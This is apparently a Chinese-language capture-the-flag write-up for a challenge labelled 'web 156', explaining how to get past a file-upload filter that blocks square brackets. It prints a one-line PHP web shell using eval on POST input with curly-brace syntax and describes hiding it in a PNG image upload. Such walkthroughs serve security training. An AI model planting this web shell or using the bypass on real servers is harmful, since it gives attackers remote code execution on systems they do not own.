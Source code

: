 ***

## <mark style="color:blue;background-color:green;">（6）web 156</mark>

<figure><img src="../.gitbook/assets/image (19) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### <mark style="color:green;">①思路解释</mark>

这个地方有一个比较神奇的点，就是我们在上传的时候就只有.user.ini.png能上传上去，shell2.png甚至连上传都上传不了，说明，shell2.png里面有一些被过滤了，后来知道是过滤了\[]，服啦，这个过滤我还是真不知道怎么绕过，后来看wp说可以改成{}。

a其他步骤还是和上述是一样的。所以这里就先将代码文件修改一下

<figure><img src="../.gitbook/assets/image (20) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```php
<?=
@eval($_POST{'a'});
?>

```

然后重新生成图片马（其实我在这里的时候遇到了问题，就是我原来的png图片里面含有\[]，我真服了，需要重新找一个图片马）其实在这里他没有校验我的图片内容是啥，所以我直接把我的木马后缀变成.png也行。果然行。
